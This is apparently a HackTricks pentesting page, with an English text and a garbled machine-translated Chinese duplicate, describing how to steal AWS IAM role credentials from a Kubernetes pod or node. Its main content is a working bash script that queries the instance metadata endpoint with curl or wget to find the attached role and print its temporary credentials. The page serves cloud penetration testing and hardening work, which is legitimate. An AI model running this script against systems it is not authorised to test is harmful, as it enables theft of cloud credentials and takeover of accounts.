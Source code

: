 ## Steal IAM Role Token

Previously we have discussed how to **attach IAM Roles to Pods** or even how to **escape to the Node to steal the IAM Role** the instance has attached to it.

以前，我们已经讨论了如何将IAM角色附加到Pods **，甚至如何**逃到节点上窃取IAM角色**该实例已附加到它。

You can use the following script to **steal** your new hard worked **IAM role credentials**:

您可以使用以下脚本**窃取**您的新努力** iam角色凭据**：

```bash
IAM_ROLE_NAME=$(curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ 2>/dev/null || wget  http://169.254.169.254/latest/meta-data/iam/security-credentials/ -O - 2>/dev/null)
if [ "$IAM_ROLE_NAME" ]; then
    echo "IAM Role discovered: $IAM_ROLE_NAME"
    if ! echo "$IAM_ROLE_NAME" | grep -q "empty role"; then
        echo "Credentials:"
        curl "http://169.254.169.254/latest/meta-data/iam/security-credentials/$IAM_ROLE_NAME" 2>/dev/null || wget "http://169.254.169.254/latest/meta-data/iam/security-credentials/$IAM_ROLE_NAME" -O - 2>/dev/null
    fi
fi
```

# References

* [https://medium.com/zeotap-customer-intelligence-unleashed/gke-workload-identity-a-secure-way-for-gke-applications-to-access-gcp-services-f880f4e74e8c](https://medium.com/zeotap-customer-intelligence-unleashed/gke-workload-identity-a-secure-way-for-gke-applications-to-access-gcp-services-f880f4e74e8c)
* [https://blogs.halodoc.io/iam-roles-for-service-accounts-2/](https://blogs.halodoc.io/iam-roles-for-service-accounts-2/)


<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>



